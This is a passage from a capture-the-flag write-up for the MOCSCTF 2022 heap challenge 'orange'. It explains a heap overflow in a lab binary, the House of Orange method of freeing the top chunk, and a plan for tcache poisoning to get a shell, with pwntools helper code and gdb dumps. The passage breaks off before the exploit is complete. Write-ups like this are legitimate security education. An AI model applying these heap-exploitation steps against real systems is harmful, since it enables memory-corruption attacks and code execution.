








# mocsctf2022.mocsctf.com - orange

### Reference source

https://1ce0ear.github.io/2017/11/26/study-house-of-orange/

https://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html

https://github.com/shellphish/how2heap

https://dystopia.sg/seccon-beginners-2021-freeless/

---

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [orange.zip](orange.zip)

There will be 2 files in zip:

- freefree

- libc-2.31.so

Download zip, then extract and use `pwninit` to patch libc to challenge file. And now let's start!

# 1. Find bug

First, we use `file` command to check for basic infomation:

```
$ file freefree
freefree: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=88c0525daecc504cb81ee1e9104e218cfa4ffdc6, for GNU/Linux 3.2.0, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all security of challenge file:

```
$ checksec freefree
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Well, it's `PIE enabled`, quite hard for us when we need to debug things. Also `NX enabled` which means we cannot get our shellcode on stack works. 

Finally, let's fire up ghidra and get the main flow of program. There are just 1 interesing function is main() with 4 option `malloc`, `gets` which we input to chunk, `puts` which print out data of that chunk terminated by null-byte and `exit`.

Let's run the program to get it easily. At the menu, we can see things like this:



It tells us that we could use a technique called [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c). Analizing in ghidra and run in terminal, we know that it can take the variable name from `A` to `Z` by getting its index:



So that `X` can be from `A` to `Z`:



This means we can contain and control upto 25 chunk. And one more thing we can notice is that with each chunk, we can write unlimited data to that chunk, hence overwrite the next chunk --> **Heap Overflow**:



And that's all we can find, just 25 chunks with **Heap Overflow** and no free(), let's see the magic right now!

# 2. Brainstorming

If you are not familiar with heap, just read this to know about all kinds of chunk: https://guyinatuxedo.github.io/25-heap/index.html

### Technique

The main thing to remember is that if we malloc(0x1000) but top chunk size is just 0x300, which means that top chunk cannot satisfy the malloc. Hence, that top chunk will be freed and program will malloc 0x1000 byte on the next page of heap.

The other thing is that we can only malloc maximum 0x1000 bytes.

To be clear, we will take this example below. The heap is usually allocated with a top chunk of size 0x21000. So when we malloc a 0x400-byte chunk, the top chunk will split itself and remain `0x21000 - 0x400 = 0x20c00` with the bit `PREV_INUSE` is set:



Now we want to malloc maximum 0x1000, so the top chunk size need to be lower than 0x1000 to conduct this technique. Let's assume that we can change the top chunk size by somehow. Because there is a check about the alignment of top chunk so just to make sure that:

```
(top chunk address + top chunk size) % 0x1000 == 0
```

In our example, the size we want to overwrite into is `0xc00`:



Address `0x55555555b000` can satisfy the alignment so we will change top chunk size from 0x20c00 to 0xc00 with the `PREV_INUSE` bit is set.



So that when we malloc with a large number `malloc(0x1000)`, that top chunk cannot satisfy our malloc. Then that top chunk will be freed without any error:



Because top chunk size is 0xc00, which is large. So when top chunk is freed, it goes to unsorted bin. 

So if our top chunk size is small enough, which fit size of tcache, when we use this technique to free the top chunk, it will go to tcache bin. That's sound interesting, right?

- Summary technique:
  1. We can malloc maximum 0x1000 bytes
  2. Malloc chunk larger than top chunk will free that top chunk
  3. Overwriting top chunk size require 2 constraints:
      - The size of top chunk need to be aligned with size of 0x1000 (`(top chunk address + top chunk size) % 0x1000 == 0` )
      - The `PREV_INUSE` bit need to be set

### Brainstorming

With the origin House of Orange, it first frees the top chunk, then fake the `_IO_list_all` so that when we malloc again, it will execute `_IO_list_all` with string `/bin/sh`. But that's just for libc <= 2.23 because those libc from >=2.24, the check is changed so faking `_IO_list_all` is not successful anymore.

Because our provided libc is 2.31, we still can free the top chunk. First we make a large top chunk, then free it will give us libc main arena address. Next we will free 2 times with 2 small top chunk. So that those small top chunk can go to tcache bin (libc >=2.28 has tcache enabled).

And then, we abuse the tcache link list by overwriting the forward pointer to whatever we want and we get the shell.

- Summary:
  1. Leak main arena address
  2. Get shell

# 3. Exploit

Before we start our exploitation, I wrote these function to help our exploit more convenient

<details>
<summary>Code snippet</summary>
<p>

```
def malloc(var, num):
  p.sendlineafter(b'> ', '{}=malloc({})'.format(var, num).encode())

def gets(var, data):
  p.sendlineafter(b'> ', 'gets({})'.format(var).encode())
  time.sleep(0.1)
  p.sendline(data)

def puts(var):
  p.sendlineafter(b'> ', 'puts({})'.format(var).encode())
  # Receive data outside
```

</p>
</details>

And now let's start!

### Stage 1: Leak main arena address

At first, we will need a chunk with index `A` with any size so that we can overwrite all the next chunk with just chunk `A`:

```
malloc('A', 0x20-0x10)
```

Why I have to subtract `0x10`? Just to make sure that the chunk we malloc will have the proper size as we want so subtract `0x10` means subtract from the size of metadata of chunk. Now let's see where our chunk `A` is saved on stack after a first malloc:

```
0x00007ffcdc94e420│+0x0000: "A=malloc(32)\n"   ← $rax, $rsp, $rdi
0x00007ffcdc94e428│+0x0008: 0x0000000a29323328 ("(32)\n"?)
0x00007ffcdc94e430│+0x0010: 0x000055b1275242a0  →  0x0000000000000000    # Chunk A
0x00007ffcdc94e438│+0x0018: 0x0000000000000000    # Chunk B
0x00007ffcdc94e440│+0x0020: 0x0000000000000000    # Chunk C
0x00007ffcdc94e448│+0x0028: 0x0000000000000000    # Chunk D
0x00007ffcdc94e450│+0x0030: 0x0000000000000000    # Chunk E
0x00007ffcdc94e458│+0x0038: 0x0000000000000000    # Chunk F
...
```

So it just save our malloc address from chunk `A` to chunk `Z` like that. Now let's check the top chunk size:

```
gef➤  x/20xg 0x000055b1275242a0-0x10
0x55b127524290: 0x0000000000000000  0x0000000000000031    <-- Chunk A
0x55b1275242a0: 0x0000000000000000  0x0000000000000000
0x55b1275242b0: 0x0000000000000000  0x0000000000000000
0x55b1275242c0: 0x0000000000000000  0x0000000000020d41    <-- Top chunk
0x55b1275242d0: 0x0000000000000000  0x0000000000000000
0x55b1275242e0: 0x0000000000000000  0x0000000000000000
0x55b1275242f0: 0x0000000000000000  0x0000000000000000
0x55b127524300: 0x0000000000000000  0x0000000000000000
0x55b127524310: 0x0000000000000000  0x0000000000000000
0x55b127524320: 0x0000000000000000  0x0000000000000000
```

So our top chunk size now is `0x20d41` with the `PREV_INUSE` bit set. If we want to free that top chunk using the above technique (malloc a chunk larger than top chunk), we need to make our top chunk to be smaller because we can only malloc maximum 0x1000, which means we need to malloc around 20 chunks with size 0x1000. That would be long.

So we will change the top chunk size with the **Heap Overflow** bug. Remember that our top chunk is aligned with 0x1000 so we need to calculate the top chunk size first:

```
>>> hex(0x0000000000020d41 % 0x1000)
'0xd41'
```

So overwriting `0xd41` to top chunk size and malloc `0x1000` byte will free our top chunk.

After overwrite top chunk size:

```
gef➤  x/10xg 0x000055bcc84602a0-0x10
0x55bcc8460290: 0x0000000000000000  0x0000000000000021
0x55bcc84602a0: 0x0000000000000000  0x0000000000000000
0x55bcc84602b0: 0x0000000000000000  0x0000000000000d41
0x55bcc84602c0: 0x0000000000000000  0x0000000000000000
0x55bcc84602d0: 0x0000000000000000  0x0000000000000000
```

After malloc(0x1000):

```
```